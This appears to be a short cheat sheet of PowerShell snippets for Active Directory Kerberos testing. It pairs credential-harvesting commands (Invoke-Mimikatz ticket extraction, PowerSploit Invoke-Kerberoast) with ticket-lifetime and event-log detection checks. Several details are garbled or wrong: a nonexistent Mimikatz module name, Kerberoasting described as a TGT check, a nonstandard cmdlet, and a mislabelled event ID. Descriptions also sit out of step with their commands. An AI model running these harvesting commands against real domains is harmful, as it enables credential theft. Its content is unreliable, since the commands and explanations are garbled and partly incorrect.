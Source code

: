 **Description:**

Lists all service accounts and their Service Principal Names (SPNs) in AD.

**Example:**

Identify misconfigured SPNs.

**Script/Command:**

```powershell
Invoke-Mimikatz -Command '"ajcblyth::tickets"'
```

**Description:**

Extracts Kerberos tickets and credentials from memory using Mimikatz.

**Example:**

Harvest credentials for security testing.

**Script/Command:**

```powershell
Import-Module PowerSploit
Invoke-Kerberoast
```

**Description:**

Checks for crackable Kerberos Ticket Granting Tickets (TGTs) to detect vulnerabilities.

**Example:**

Identify potential golden ticket attack vectors.

**Script/Command:**

```powershell
$ticket = Get-KerberosTicket
$renewalDuration = (New-TimeSpan -Start $ticket.StartTime -End $ticket.EndTime).TotalMinutes
if ($renewalDuration -gt 1440) {
    Write-Host "Abnormally renewal detected."
}
```

**Description:**

Analyzes the renewal duration of Kerberos tickets to detect anomalies.

**Example:**

Flag unusually long ticket renewals.

**Script/Command:**

```powershell
Get-WinEvent -LogName Security | Where-Object { $_.Id -eq 4769 }
```

**Description:**

Filters security event logs for Kerberos-related events, such as failed authentications.
